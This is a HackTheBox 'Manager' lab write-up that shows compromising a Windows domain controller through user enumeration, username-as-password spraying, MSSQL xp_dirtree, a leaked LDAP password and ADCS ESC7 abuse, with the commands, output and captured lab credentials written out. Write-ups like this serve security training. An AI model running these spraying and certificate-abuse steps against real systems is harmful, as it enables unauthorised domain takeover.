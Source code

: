 ```yaml
---
title: HackTheBox - Manager
date: 2025-07-08 02:30:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [ESC7]     # TAG names should always be lowercase
image : /assets/images/5ca8f0c721a9eca6f1aeb9ff4b4bac60.webp
---
```


## Entry

Lets start with nxc and create our /etc/hosts file first.

```bash
➜  manager nxc smb 10.10.11.236
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
➜  manager sudo nxc smb 10.10.11.236 --generate-hosts-file /etc/hosts
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
➜  manager cat /etc/hosts
[SNIP]
10.10.11.236     DC01.manager.htb manager.htb DC01
```

and lets just run nmap scan and lets see if some different port is open

```bash
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Manager
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-08 07:56:44Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
1433/tcp open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
```

okey **80** and **1433** ports are open those are interesting lets check smb shares if we have Guest access otherwise i will check website

### Enum SMB

![alt text](../assets/images/manager1.png)

okey we can extract usernames etc here but we dont have access on `shares` yet.

```bash
nxc smb DC01.manager.htb -u 'Guest' -p '' --rid-brute
➜  manager vim ridusers.txt
➜  manager cat ridusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2 > users.txt 
➜  manager cat users.txt 
Administrator
Guest
krbtgt
DC01$
Zhong
Cheng
Ryan
Raven
JinWoo
ChinHae
Operator
```

and lets try if someones using his password as his usernames.

![alt text](../assets/images/manager2.png)

okey its happening me before so i decided to create usernames with uppercase and lowercase together.

```bash
➜  manager lookupsid.py Guest@manager.htb -no-pass | grep SidTypeUser | cut -d' ' -f2 | cut -d'\' -f2 | tr '[:upper:]' '[:lower:]' | tee users
/usr/local/bin/lookupsid.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'lookupsid.py')
administrator
guest
krbtgt
dc01$
zhong
cheng
ryan
raven
jinwoo
chinhae
operator
```

okey now lets try again.

```bash
➜  manager nxc smb DC01.manager.htb -u users -p users --no-bruteforce --continue-on-success 
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\dc01$:dc01$ STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\jinwoo:jinwoo STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\chinhae:chinhae STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
```

nice we got it. lets check if we have mssql access.

### mssql

![alt text](../assets/images/manager3.png)

okey lets check we have only `Guest` access but i remember we have webserve at port **80** and lets see if we can read some files with `xp_dirtree`

![alt text](../assets/images/manager4.png)

we can download it directly. [`http://10.10.11.236/website-backup-27-07-23-old.zip`](http://10.10.11.236/website-backup-27-07-23-old.zip)

```bash
➜  manager cp /home/elliot/Downloads/website-backup-27-07-23-old.zip .
➜  manager unzip website-backup-27-07-23-old.zip 
Archive:  website-backup-27-07-23-old.zip
  inflating: .old-conf.xml
```

.old-conf.xml okey its fucking suspicious.

```bash
➜  manager cat .old-conf.xml 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
```

we got the password lets do password pray

```bash
➜  manager nxc smb DC01.manager.htb -u users -p 'R4v3nBe5tD3veloP3r!123' --continue-on-success
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
[SNIP]
SMB         10.10.11.236    445    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
```

its only work for Raven. Let see.

```bash
➜  manager nxc winrm DC01.manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
```

we can read user.txt tho

```bash
➜  manager nxc ldap DC01.manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123' --bloodhound --dns-server 10.10.11.236 --collection All
LDAP        10.10.11.236    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
LDAP        10.10.11.236    389    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
LDAP        10.10.11.236    389    DC01             Resolved collection methods: rdp, dcom, trusts, container, session, acl, psremote, localadmin, group, objectprops                                                                                                                                                     
LDAP        10.10.11.236    389    DC01             Done in 00M 19S
LDAP        10.10.11.236    389    DC01             Compressing output into /home/elliot/.nxc/logs/DC01_10.10.11.236_2025-07-07_211920_bloodhound.zip
```

we also have **LDAP** access i dumped BH data.

![alt text](../assets/images/manager5.png)

but nothing interesting so lets check **ADCS**

## ESC7

```bash
➜  manager nxc ldap DC01.manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123' -M adcs
LDAP        10.10.11.236    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
LDAP        10.10.11.236    389    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
ADCS        10.10.11.236    389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.236    389    DC01             Found PKI Enrollment Server: dc01.manager.htb
ADCS        10.10.11.236    389    DC01             Found CN: manager-DC01-CA

```

okey thats seems like way let me use my own tool 

https://github.com/lineeralgebra/autoadcspwner

it will detect and pwn auto.

```bash
➜  manager git clone https://github.com/lineeralgebra/autoadcspwner
Cloning into 'autoadcspwner'...
remote: Enumerating objects: 81, done.
remote: Counting objects: 100% (81/81), done.
remote: Compressing objects: 100% (74/74), done.
remote: Total 81 (delta 30), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (81/81), 2.41 MiB | 479.00 KiB/s, done.
Resolving deltas: 100% (30/30), done.
➜  manager cd autoadcspwner
```

and boommm

![alt text](../assets/images/manager6.png)

and BAMMM

![alt text](../assets/images/manager7.png)

## Creds

| username | password / hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
| operator | operator | mssql | password spray | mssql xp_dirtree |
| raven | R4v3nBe5tD3veloP3r!123 | LDAP | .old-conf.xml  | ESC7 |
| Administrator | ae5064c2f62317332c88629e025924ef | everywhere | ESC7 | DA |

## Tools

https://github.com/lineeralgebra/autoadcspwner
